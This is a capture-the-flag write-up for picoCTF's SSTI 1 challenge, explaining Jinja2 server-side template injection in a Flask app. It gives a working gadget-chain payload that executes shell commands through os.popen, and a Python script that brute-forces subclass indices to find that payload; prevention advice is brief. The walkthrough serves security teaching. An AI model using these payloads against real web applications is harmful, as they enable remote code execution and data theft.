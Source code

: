 ```yaml
---
title: "SSTI-1 PICOCTF"
tags: [CTF, Cybersecurity, WEB, PICOCTF]
---
```


# SSTI 1 (Server Side Template Injection)

This challenge is vulnerable to a vulnerability called server-side template injection, which gives the attacker the ability to inject a malicious payload into a template which is then executed on the server-side.

![Home page](../images/ssti-1.png)

if we did send this ``{{7*7}}` payload as user input it will get executed on the server side.

![Response](../images/ssti-2.png)

It does not display `{{7*7}}` as plain text. Instead, the template engine executes it on the server, calculates the result, and returns 49.

Ok now we know that the server is vulnerable, so now let's identify which technology the server is using for example python or php ...

So to identify the server techonlogie let's read the heards of the response by using `curl -I <url>`

and headers are :

```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.8.10
Date: Thu, 08 May 2025 23:15:55 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 567
Connection: close
```

The Server: Werkzeug/3.0.3 Python/3.8.10 header confirms that the server is using Python with the Werkzeug WSGI server. This strongly suggests the backend is Flask, since Flask is built on Werkzeug.

Now, Flask uses Jinja2 as its default template engine

To extract the flag, we can craft a payload that takes advantage of Python’s object model and introspection features. By leveraging server-side template injection (SSTI), we can escape the sandbox and read the flag file using Python "gadgets":

```python
{{"".__class__.__base__.__subclasses__()[80].__init__.__globals__['sys'].modules['os'].popen('cat flag').read()}}
```
This payload navigates through Python’s class hierarchy to access the os module and execute a system command that reads the flag. The result is printed directly in the rendered template response.

Breakdown of the Payload

    "": Empty string object.

    .__class__: Gives <class 'str'>.

    .__base__: Gives <class 'object'>.

    .__subclasses__(): Lists all subclasses of object.

    [<index>]: We select a subclass that gives us access to __globals__.

    .__init__.__globals__: Accesses the global variables of that class’s constructor.

    ['sys']: Gets the sys module from globals.

    .modules['os']: Accesses the os module.

    .popen('cat flag'): Runs the shell command.

    .read(): Reads the result — the flag!

## How I Discovered the Right Gadget Subclass for the SSTI Exploit

To find a Python class with access to dangerous internals (like the sys module), I wrote a script to enumerate all subclasses of Python’s base object class, using Server-Side Template Injection (SSTI). Here's how it works:

```python

import requests
import html
import re

url = "ctf-url"
#This payload returns a list of all subclasses of the base Python #object class.
payload = "{{\"\".__class__.__base__.__subclasses__()}}"

#We send the payload to the vulnerable endpoint via a POST request.
r = requests.post(url, data={"content":payload})

#If the request is successful, we decode the HTML content and extract class names using regex.

if r.status_code == 200:
    html_content = r.text
    content_decoded = html.unescape(html_content)
    class_names = re.findall(r"<class '([^']+)'>", content_decoded)
    print(len(class_names))

    #For each subclass index, we craft a new payload to try to access __globals__['sys'] and run a shell command: cat flag.
    for i in range(0, len(class_names)):
        new_paload = "{{\"\".__class__.__base__.__subclasses__()["+ str(i) + "].__init__.__globals__['sys'].modules['os'].popen('cat flag').read()}}"
        #We send the new payload to the server.
         nr = requests.post(url, data={"content":new_paload})
         #If the response contains the flag, we print the result and stop the script.
        if nr.status_code == 200:
            print(nr.text)
            print("*"*20)
            #This is how we find the first subclass that gives us working access to Python internals, in this case: index 80.
            print("class name: ", class_names[i], "index: ", i)
            exit(0)
```
### Why This Was Vulnerable:
- No input sanitization before rendering templates.
- Lack of proper context escaping in the template engine.

### Prevention:
- Use a **safe template engine** that does not evaluate code or expressions.
- Sanitize inputs and avoid using user input in templates directly.

---

🎥 **Want to see this exploit in action?**

Check out the full walkthrough on my YouTube channel where I demonstrate this SSTI attack step-by-step:

👉 [Watch on YouTube](https://youtu.be/oVBkaSHj4aE)  
🔔 Don’t forget to **like**, **subscribe**, and **turn on notifications** so you never miss a cybersecurity tutorial!

---